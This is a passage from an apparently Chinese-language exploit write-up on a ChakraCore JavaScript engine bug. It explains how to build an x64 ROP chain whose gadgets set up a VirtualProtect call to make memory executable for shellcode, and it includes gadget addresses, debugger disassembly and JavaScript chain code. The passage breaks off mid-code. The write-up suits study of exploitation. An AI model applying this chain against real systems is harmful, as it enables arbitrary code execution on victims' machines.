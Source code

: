 栈迁移后，我们就可以着手准备 rop 链和 shellcode 了。这部分的整体逻辑示意图如下：

[![](https://p1.ssl.qhimg.com/t01652c5edd8a795ca6.jpg)](https://p1.ssl.qhimg.com/t01652c5edd8a795ca6.jpg)

通过调用 VirtualProtect 将地址属性修改为可执行，然后执行 shellcode。

### <a class="reference-link" name="%E8%A1%A5%E5%85%85%E4%B8%80%E4%BA%9B%E8%83%8C%E6%99%AF%E7%9F%A5%E8%AF%86"></a>补充一些背景知识

x64 calling convention ([https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=vs-2019](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=vs-2019)), 参数依次存放在 rcx, rex, r8, r9 和栈上。<br>
VirtualProtect 的函数原型如下：

```
BOOL VirtualProtect
      LPVOID lpAddress,
      SIZE_T dwSize,
      DWORD  flNewProtect,
      PDWORD lpflOldProtect
    );
```

该 API 需要4个参数，依次对应 lpAddress &lt;—&gt; rcx, dwSize &lt;—&gt; rdx, flNewProtect &lt;—&gt; r8, lpflOldProtect &lt;—&gt; r9。

我们理想的 gadget 当然就是: pop rcx; pop rdx; pop r8; pop r9; ret; 同样的，实际上并没有这类 gadget，我们选择一些同等效力的替代 gadget ：pop rcx; ret 和 pop rdx; ret 和 pop r8x; ret; 由于 r9 没有类似的 gadget，我选择另外一个gadget：

```
0:003&gt; u F42DD + chakracore
chakracore!FlowGraph::FindEdge+0x35 [e:a_work39slibbackendflowgraph.cpp @ 623]:
00007ffc`b12942dd 4c8bc8          mov     r9,rax
00007ffc`b12942e0 498bc1          mov     rax,r9
00007ffc`b12942e3 4883c438        add     rsp,38h
00007ffc`b12942e7 c3              ret
```

准备 VirtualProtect 参数的 rop 链，的示例代码如下：

```
var gadget_pop_int3 = new Addr(gadgets_addr_list['int3']);
    var gadget_pop_rcx  = new Addr(gadgets_addr_list['pop_rcx']);
    var gadget_pop_rdx  = new Addr(gadgets_addr_list['pop_rdx']);
    var gadget_pop_r8   = new Addr(gadgets_addr_list['pop_r8']);
    var gadget_pop_r9   = new Addr(chakracore_base + 0xF42DD);

/*    
0:003&gt; u chakracore + 0xF42DD
chakracore!FlowGraph::FindEdge+0x35 [e:a_work39slibbackendflowgraph.cpp @ 623]:
00007ffc`b12942dd 4c8bc8          mov     r9,rax
00007ffc`b12942e0 498bc1          mov     rax,r9
00007ffc`b12942e3 4883c438        add     rsp,38h
00007ffc`b12942e7 c3              ret
*/    
    var rop_chain = [
         gadget_pop_rcx.low,     gadget_pop_rcx.high        // gadget: pop rcx
        ,ret_list[0],             ret_list[1]                  // lpAddress
        ,gadget_pop_rdx.low,     gadget_pop_rdx.high        // gadget: pop rdx
        ,1*0x1000*0x1000,         0x0                         // dwSize
        ,gadget_pop_r8.low,     gadget_pop_r8.high           // gadget: pop r8
        ,0x40,                     0x0                        // flNewProtect
        ,gadget_pop_int3.low,   gadget_pop_int3.high       // int3
    ];

    for(var i=0; i&lt;rop_chain.length ;i++)`{`
```